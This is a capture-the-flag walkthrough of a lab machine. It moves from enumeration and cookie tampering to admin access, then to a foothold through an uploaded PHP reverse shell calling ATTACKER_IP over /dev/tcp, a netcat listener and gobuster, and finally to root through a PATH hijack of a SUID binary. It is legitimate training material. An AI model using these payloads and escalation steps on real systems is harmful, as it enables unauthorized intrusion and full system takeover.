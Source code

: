 # 1. Enumeration

- We are going to start our enumeration by searching for any open ports using the Nmap tool:

![img.png](img/img.png)

- Upon checking the page source, we found an interesting endpoint that might be used to login to admin account:
`/cdn-cgi/login`

![img_1.png](img/img_1.png)

- After trying a couple of default username/password combinations, we didn't manage to get any access. But
there is also an option to `Login as Guest`. Trying that and now we are presented with a couple of new
navigation options as we are logged in as Guest:

![img_2.png](img/img_2.png)

- After navigating through the available pages, we spot that the only interesting one seems to be the
`Uploads`. However, it is not possible to access it as we need to have super admin rights.

- Going to the `Account` page, we spot that we can change the `id` parameter to enumerate the users:

![img_3.png](img/img_3.png)

- Indeed, we got an information disclosure vulnerability, which we might be able to abuse. We now know the
access ID of the admin user thus we can try to change the values in our cookie through the Developer tools
so the user value to be 34322 and role value to be admin . Then we can revisit the `Uploads` page.

![img_4.png](img/img_4.png)

# 2. Foothold

- Now that we got access to the upload form we can attempt to upload a PHP reverse shell. Let's use a simple one:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/`ATTACKER_IP`/1234 0>&1'");?>
```

- And We finally managed to upload it. But now we might need to bruteforce directories in order to locate the folder
where the uploaded files are stored. We can use `gobuster` to automate the process:

```
gobuster dir --url http://{TARGET_IP}/ --wordlist
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x phpA
```

![img_5.png](img/img_5.png)

- The `gobuster` immediately found the /uploads directory. We don't have permission to access the
directory, but we can access our uploaded file.

- Now, lets set up a netcat listener to receive the reverse shell:

```
nc -lvnp 1234
```

- Then request our shell through browser:

```
http://{TARGET_IP}/uploads/php-reverse-shell.php
```

- Verify that we do get a reverse shell:

![img_6.png](img/img_6.png)

- We can issue the following to have a functional shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 3. Lateral Movement

- Going through each file in the current directory, we spot something interesting:

![img_7.png](img/img_7.png)

- Now that we got the password we can successfully login and read the user.txt flag which can be found in
the home directory of `robert`:

![img_8.png](img/img_8.png)

# 4. Privilege Escalation

- Before running any privilege escalation or enumeration script, let's check the basic commands for elevating
privileges like `sudo` and `id`:

![img_9.png](img/img_9.png)

- We observe that user `robert` is part of the group `bugtracker`. Let's try to see if there is any binary within
that group:

![img_10.png](img/img_10.png)

- We found a file named `bugtracker`. Let's check what privileges and what type of file is it:

![img_11.png](img/img_11.png)

- There is a `suid` set on that binary, which is a promising exploitation path.

```
Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.
```

- We will run the application to observe how it behaves:

![img_12.png](img/img_12.png)

- The tool is accepting user input as a name of the file that will be read using the `cat` command, however, it
does not specify the whole path to file `cat` and thus we might be able to exploit this.

- The idea here is that we will create another executable `cat` file in some directory, which will spawn a shell for us. 
Then, when running `bugtracker` in that directory, it will call our `cat` file, thus spawn us a shell.

- We will navigate to `/tmp` directory and create a file named `cat` with the following content: `/bin/sh`

- We also have to set execute privileges for it and add the `/tmp` directory to the PATH variable:

```
chmod +x cat
export PATH=/tmp:$PATH
```

- Finally, execute the `bugtracker` from `/tmp` directory:

![img_13.png](img/img_13.png)